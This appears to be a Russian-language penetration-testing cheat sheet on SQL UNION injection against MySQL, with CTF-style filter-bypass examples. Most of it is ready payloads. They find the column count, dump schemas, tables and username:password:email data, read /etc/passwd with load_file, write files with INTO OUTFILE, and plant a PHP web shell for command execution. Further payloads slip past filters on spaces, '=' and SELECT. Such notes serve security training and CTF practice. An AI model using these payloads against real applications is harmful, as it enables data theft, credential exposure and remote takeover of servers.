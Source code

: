 # SQL UNION Injection

### Общее представление об атаке SQL UNION Injection

Реализуется в случае, если результаты SQL-запроса возвращаются в ответе приложения. Ответы могут быть разными: ошибки приложения, ошибки сервера, результаты запросов и другие.

**Оператор UNION позволяет запускать один и более SELECT-запросов. Например:**

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Данный SQL-запрос вернет один ответ с двумя столбцами, содержащими значения из столбцов a и b в table1 и столбцов c и d в table2.

**Чтобы успешно выполнить атаку, необходимо знать:**

* Сколько столбцов возвращается из исходного запроса
* Тип данных каждого столбца

### **Определение количества столбцов:**

Есть два способа определения количества столбцов: через `ORDER BY` и `UNION SELECT`.

**Первый способ** - `ORDER BY`:

```sql
' ORDER BY 1 -- - (200 OK)
' ORDER BY 2 -- - (200 OK)
' ORDER BY 3 -- - (200 OK)
' ORDER BY 4 -- - (500 ERROR)
```

В таблице 3 столбца, так как `' ORDER BY 4` выдает ошибку.

**Второй способ** - `UNION SELECT`:

```sql
' UNION SELECT NULL-- (500 ERROR)
' UNION SELECT NULL,NULL -- - (500 ERROR)
' UNION SELECT NULL,NULL,NULL -- - (200 OK)
' UNION SELECT NULL,NULL,NULL,NULL -- - (500 ERROR)
```

Перебираем NULL, пока не получим 200 ОК, т.к. без ошибок

<mark style="color:green;">**Используем NULL, потому что NULL подходит для всех типов данных.**</mark>

### **Определение типа данных каждого столбца:**

```
' UNION SELECT 'a',NULL,NULL,NULL --
' UNION SELECT NULL,'a',NULL,NULL --
' UNION SELECT NULL,NULL,'a',NULL -- 
```

### **Использование внутренних функций базы данных**:

Когда мы знаем количество столбцов, мы можем сделать данную вещь:

```sql
' UNION SELECT version(),null,null -- -
```

Ответ может быть примерно таким(вместо вывода имени пользователя выводится результат функции `version()`):

```
(...)
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
(...)
```

### **Некоторые функции из MySQL:**

```
@@hostname - имя хоста
@@tmpdir - директория /tmp/
@@datadir - директория /data
@@version - версия БД
@@basedir - базовая директория
load_file() - вывод определенного файла, например, load_file('/etc/passwd')
user() - имя пользователя
database() - база данных
version() - версия
schema() - база данных
UUID() - системный UUID ключ
current_user() - текущий пользователь
current_user - текущий пользователь
system_user() - системный пользователь
session_user() - сессионый пользователь
@@GLOBAL.have_symlink - проверка на включенные/отключенные символьные ссылки
@@GLOBAL.have_ssl - проверка на SSL
```

### Последовательность действий для выполнения успешной атаки

* Определяем количество столбцов
* Определяем тип данных каждого столбца
* Выводим все базы данных:

```sql
1337'union select group_concat(schema_name),NULL,NULL from information_schema.schemata -- -
```

* Выводим все таблицы из базы данных database1

```sql
1337'union select group_concat(table_name),NULL,NULL from information_schema.tables where table_schema='database1' -- -
```

* Выводим все колонки из таблицы `table1`, которая находится в базе данных `database1`:

```sql
1337'union select group_concat(column_name),NULL,NULL from information_schema.columns where table_schema='database1' and table_name='table1' -- -
```

* Выводим все данные `username`, `password`, `email` из таблицы `table1`, которая находится в базе данных `database1`:

```sql
1337'union select group_concat("\n", username,":",password,":",email,"\n"),NULL,NULL from database1.table1
```

**1337 -** например, параметр id, но важно, чтобы такого значения не было в таблице (или можно использовать -1).

### LFI без вывода с помощью UNION SQL Injection

```
' UNION SELECT load_file("/etc/passwd"),null,null -- -
```

### Запись в файлы с помощью UNION SQL Injection

```
' UNION SELECT NULL,NULL,'test text' into outfile /var/www/html/test.txt
```

### Reverse Shell с помощью UNION SQL Injection

Находим папку сервера с помощью конфига веб-сервера.

&#x20;Для **Nginx**:

```
cat /etc/nginx/sites-enabled/default
```

Для **Apache**:

```
cat /etc/apache2/sites-enabled/000-default.conf
```

Теперь записываем туда шелл:

```
1337 union select null,null,'<?php system($_REQUEST["cmd"]); ?>' into outfile '/var/www/html/shell.php' -- -
```



## Обход фильтров

### Запрещено \[ , ' ( ) + = \ " ] + и пробел:

```sql
SELECT * FROM age WHERE age=$age
```

Вместо пробела можно использовать `/**/`, а вместо `where name='b548d45080b9d110'` использовать `where name like 0x62353438643435303830623964313130`:

```sql
1337/**/union/**/select/**/*/**/from/**/flags/**/where/**/name/**/like/**/0x62353438643435303830623964313130
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) , ] + и обход защиты от select:

```sql
SELECT * FROM age WHERE age=$age
```

Так как в таблице очень много флагов и нам нужен флаг с `name`=`3f1a76e536a0a805`, то нужно указать фильтр вывода, например, `where name='3f1a76e536a0a805'`, но знак `=` запрещен, следовательно можно использовать `LIKE` вместе с хексовым значением `name`:

```sql
1337 union Select null,name,flag From flags where name like 0x33663161373665353336613061383035
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) \* и обход защиты от select:

```sql
SELECT * FROM age WHERE age=$age
```

Так как мы не можем перебрать количество колонок через `union select null,<null>,<...>`, то можно это сделать через JOIN AS:

```sql
1337 union Select * from flag JOIN (Select 'qwe') as a
```

Ответ:

```sql
MySQL error: The used SELECT statements have a different number of columns
```

Пробуем добавить еще одну колонку:

```sql
1337 union Select * from flag JOIN (Select 'qwe') as a JOIN (Select 'qwe') as b
```

И в ответе мы получаем флаг

### Запрещен SELECT полностью:

```sql
SELECT * FROM age WHERE age=$age
```

Можно использовать SELSELECTECT, если фильтры единоразово вырезают SELECT без цикла:

```sql
1337 union SELSELECTECT null,null,flag from flag
```
